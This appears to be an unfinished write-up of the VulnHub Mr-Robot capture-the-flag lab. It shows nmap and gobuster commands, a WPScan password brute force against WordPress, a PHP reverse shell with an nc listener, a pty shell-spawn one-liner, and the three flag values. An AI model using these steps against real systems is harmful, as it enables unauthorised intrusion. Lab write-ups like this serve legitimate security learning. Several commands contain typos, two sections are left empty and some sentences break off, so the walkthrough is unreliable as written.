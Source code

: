 # VulnHub Mr.Robot Write - Up
## Overview
- **Machine Name:** [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/ "Mr-Robot: 1 on Vulnhub")
- **Platform:** VulnHub
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine
 - Port 80 (HTTP) open -> Apache web server detected
 - Port 443 (HTTPS) open
 - Port 22 (SSH) open
### 2. Enumeration (Flag 2)
~~~

gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster
 - /robots.txt -> contained the extension which led to the first flag as well as a dictionary
 - WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist
 - Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt
 - We crack the hash to find the password for robot
 - Now that we have the password we can login to the Mr.Robot and read .txt
### 4. Privilege Escalation (Flag 3)
-
~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~
- We

### 5. Enumeration (Flag 3)

### 6. Exploitation (Flag 3)
---

## Flags Captured
Flag 1: 073403c8a58a1f80d943455fb30724b9
Flag 2: 822c73956184f694993bede3eb39f959
Flag 3: 04787ddef27c3dee1ee161b21670b4e4
---

## Lessons Learned
Protection against rainbow tables
- Password salting
- Login attempt limit
---

## References
https://www.vulnhub.com/entry/mr-robot-1,151/
